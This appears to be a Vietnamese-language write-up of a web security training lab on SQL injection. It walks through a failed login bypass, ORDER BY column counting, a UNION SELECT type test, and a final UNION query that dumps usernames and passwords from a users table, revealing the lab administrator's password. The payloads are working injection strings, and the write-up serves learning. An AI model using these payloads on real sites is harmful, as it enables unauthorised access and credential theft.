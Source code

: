 # SQL injection UNION attack, retrieving data from other tables

Bài lab này yêu cầu ta đăng nhập vào hệ thống với quyền quản trị viên.
Ta thử bypass cơ bản xem sao:
`administrator'--`
`123456`

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134117113221615646/image.png)

Hmm... Không được rồi, vậy là ta cần phải biết được chính xác `username` và `password` của quản trị viên. Thử kiểm tra xem trong bảng của database có bao nhiêu cột và trong đó có thông tin về `username`, `password` không nhé!

- `filter?category=' ORDER BY 2--` ( Vậy là có 2 cột trong bảng của databse).

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134118253908742244/image.png)

Tiếp theo ta thử kiểm tra xem kiểu dữ liệu trong 2 cột trên có chứa kiểu văn bản không nhé!

- `' UNION SELECT 'ahihi','ehehe'--`

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134120162350616778/image.png)

Giờ ta chỉ cần truy cập vào dữ liệu của 2 cột trong bảng của database thui, thường thì thông tin của người dùng là `username`, `password` và thường đặt tên bảng là `users`

- `' UNION SELECT username, password FROM users--`

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134121087408541747/image.png)

Vậy là đã có thông tin để đăng nhập vào tài khoản quản trị viên:
- `administrator`
- `ch7ab0br2jjk6gpxikbw`

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134121634375159878/image.png)
